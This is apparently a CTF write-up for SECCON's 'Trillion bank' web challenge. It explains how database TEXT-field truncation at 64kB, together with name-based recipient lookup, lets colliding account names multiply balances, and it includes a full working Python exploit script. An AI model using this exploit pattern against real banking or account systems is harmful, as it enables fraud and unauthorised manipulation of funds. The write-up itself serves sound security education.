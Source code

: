 ### Trillion bank

Due to vulnerability in sending money it was possible to generate any balance (e.g. trilion$) used to get the flag.
Target account was correctly verified if ID is different than current, however target account was updated based on their name instead of ID.

By default database has limits how much information each field can store, in this case it was `TEXT` field that could hold only 64kB and anything beyond that was truncated.
We've exploited this fact by creating accounts with same prefix (name) for first 64kB and bypassing same name check that didn't had 64kB limit. Each money transfer is generating additional money to the other accounts.

Our exploit:

```py
import requests


url = 'http://trillion.seccon.games:3000'
# url = 'http://127.0.0.1:3000'

PAYLOAD = 'justcatthefish007'
PAYLOAD += (0xFFFF - len(PAYLOAD)) * 'q'

sessions = []
for x in range(3):
    s = requests.session()
    if x == 0: x = ''
    s.post(url + '/api/register', json={'name': PAYLOAD + str(x)})
    sessions.append(s)


balance = [10, 10]
while True:
    for x in range(2):
        sessions[x+1].post(url + '/api/transfer', json={'recipientName': PAYLOAD, 'amount': balance[x]})
        balance[(x+1)%2] += balance[x]

    try:
        print(sessions[0].get(url + '/api/me').json()['flag'])
        break
    except:
        pass
```
